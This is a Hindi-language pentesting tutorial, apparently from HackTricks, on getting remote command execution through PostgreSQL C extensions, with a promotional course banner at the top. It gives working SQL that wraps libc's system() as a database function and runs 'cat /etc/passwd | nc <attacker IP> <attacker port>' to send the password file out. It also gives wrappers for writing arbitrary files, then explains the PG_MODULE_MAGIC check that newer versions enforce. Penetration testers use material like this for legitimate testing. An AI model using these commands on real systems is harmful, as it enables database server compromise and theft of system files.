 # RCE with PostgreSQL Extensions

<details><summary><strong>जीरो से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## PostgreSQL Extensions

PostgreSQL को एक मुख्य सुविधा के रूप में एक्सटेंसिबिलिटी के साथ विकसित किया गया है, जिससे यह एक्सटेंशन को ऐसे तरीके से संगत ढंग से एकीकृत कर सकता है जैसे वे अंतर्निहित कार्यक्षमताओं थे। ये एक्सटेंशन, मुख्य रूप से सी में लिखी पुस्तकालयें, डेटाबेस को अतिरिक्त कार्यों, ऑपरेटर्स, या प्रकारों के साथ समृद्ध करती हैं।

8.1 संस्करण से आगे, एक विशेष आवश्यकता एक्सटेंशन पुस्तकालयों पर लगाई गई है: उन्हें एक विशेष हेडर के साथ कंपाइल किया जाना चाहिए। इसके बिना, PostgreSQL उन्हें नहीं चलाएगा, यह सुनिश्चित करता है कि केवल संगत और संभावित रूप से सुरक्षित एक्सटेंशन का उपयोग किया जाता है।

इसके अलावा, ध्यान रखें कि **अगर आप नहीं जानते कि** [**PostgreSQL का दुरुपयोग करके विक्टिम को फ़ाइल अपलोड कैसे करें तो आपको इस पोस्ट को पढ़ना चाहिए।**](big-binary-files-upload-postgresql.md)

### लिनक्स में RCE

**अधिक जानकारी के लिए देखें: [https://www.dionach.com/blog/postgresql-9-x-remote-command-execution/](https://www.dionach.com/blog/postgresql-9-x-remote-command-execution/)**

PostgreSQL 8.1 और पहले संस्करण से सिस्टम कमांड का निष्पादन एक प्रक्रिया है जिसे स्पष्ट रूप से दस्तावेज़ीकृत किया गया है और सीधा है। इसका उपयोग करना संभव है: [Metasploit मॉड्यूल](https://www.rapid7.com/db/modules/exploit/linux/postgres/postgres_payload).
```sql
CREATE OR REPLACE FUNCTION system (cstring) RETURNS integer AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc <attacker IP> <attacker port>');

# You can also create functions to open and write files
CREATE OR REPLACE FUNCTION open(cstring, int, int) RETURNS int AS '/lib/libc.so.6', 'open' LANGUAGE 'C' STRICT;
CREATE OR REPLACE FUNCTION write(int, cstring, int) RETURNS int AS '/lib/libc.so.6', 'write' LANGUAGE 'C' STRICT;
CREATE OR REPLACE FUNCTION close(int) RETURNS int AS '/lib/libc.so.6', 'close' LANGUAGE 'C' STRICT;
```
<details><summary>बेस64 से बाइनरी फ़ाइल लिखें</summary></details>

हालांकि, जब इसे अधिक वर्शन पर प्रयास किया गया **तो निम्न त्रुटि दिखाई गई**:
```c
ERROR:  incompatible library “/lib/x86_64-linux-gnu/libc.so.6”: missing magic block
HINT:  Extension libraries are required to use the PG_MODULE_MAGIC macro.
```
यह त्रुटि [PostgreSQL दस्तावेज़ीकरण](https://www.postgresql.org/docs/current/static/xfunc-c.html) में स्पष्ट की गई है:

> एक डायनामिक लोड किया गया ऑब्जेक्ट फ़ाइल को एक असंगत सर्वर में लोड न होने सुनिश्चित करने के लिए, PostgreSQL यह जांचता है कि फ़ाइल में उचित सामग्री के साथ एक "जादू ब्लॉक" है। यह सर्वर को स्पष्ट असंगतताओं का पता लगाने में मदद करता है, जैसे कोड जो PostgreSQL के एक विभिन्न मुख्य संस्करण के लिए कंपाइल किया गया है। PostgreSQL 8.2 के रूप में एक जादू ब्लॉक की आवश्यकता है। एक जादू ब्लॉक शामिल करने के लिए, इसे एक (और केवल एक) मॉड्यूल स्रोत फ़ाइल में लिखें, हेडर fmgr.h को शामिल करने के बाद:
>
> `#ifdef PG_MODULE_MAGIC`\
> `PG_MODULE_MAGIC;`\
> `#endif`
